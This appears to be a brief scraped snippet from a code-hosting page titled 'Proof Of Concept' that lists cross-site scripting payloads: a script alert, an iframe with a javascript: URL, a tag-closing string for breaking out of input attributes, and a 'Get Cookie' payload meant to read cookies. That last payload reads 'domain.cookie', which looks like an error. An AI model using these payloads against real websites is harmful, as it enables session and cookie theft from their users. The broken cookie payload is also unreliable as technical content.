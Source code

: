 
Proof Of Concept:

`<script>alert('XSS');</script>`
`<iframe src="javascript:alert('XSS')">`
This can be used to close tags (escape input tags and stuff) -
`">`

Get Cookie - 
`<script>alert(domain.cookie)</script>`

